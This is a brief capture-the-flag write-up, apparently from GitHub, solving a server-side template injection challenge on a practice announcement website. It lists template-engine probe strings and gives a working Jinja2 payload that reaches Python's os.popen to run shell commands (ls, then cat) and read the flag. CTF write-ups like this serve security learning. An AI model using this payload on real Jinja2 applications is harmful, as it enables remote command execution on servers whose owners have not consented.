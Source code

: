 Description:  
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.  
Hints:   
Server Side Template Injection

After you lunchs the Instance, it shows like this:  
<img width="757" height="216" alt="image" src="https://github.com/user-attachments/assets/0d69f037-bc91-43d6-b7f2-15cb2ecf46b3" />

With that hint, it's clearly SSTI. Doing research, i found some payload to testing, if anything can make the server execute my payload:  
`{{7*7}}`  Jinja2/Twig    
`${7*7}`	Freemarker, Thymeleaf  
`<%= 7*7 %>`	Ruby ERB  
`{$7*7}`	Smarty PHP    
I found it's using Jinja2 (Python) after it show "49" as a result.  
I change my payload to `{{ cycler.__init__.__globals__.os.popen('ls').read() }}`  
And see the flag:  
<img width="1299" height="160" alt="image" src="https://github.com/user-attachments/assets/970a7587-0773-43f8-83b0-6e95c99304bb" />  
Change `ls` command to `cat` to read the flag.   
Peace!  
